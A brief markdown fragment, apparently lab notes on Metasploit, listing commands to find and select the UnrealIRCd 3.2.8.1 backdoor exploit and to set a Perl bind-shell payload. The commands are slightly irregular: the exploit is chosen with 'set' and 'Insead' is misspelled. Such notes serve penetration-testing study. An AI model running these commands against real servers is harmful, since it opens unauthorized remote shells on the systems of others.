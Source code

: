 ### Exploit Module
```
search type:exploit irc
set exploit/unix/irc/unreal_ircd_3281_backdoor
```

### Selecting Payloads
```
# Sometimes using the keyword 'use' can change the exploit module
# Insead, set the payload manually
set payload cmd/unix/bind_perl
```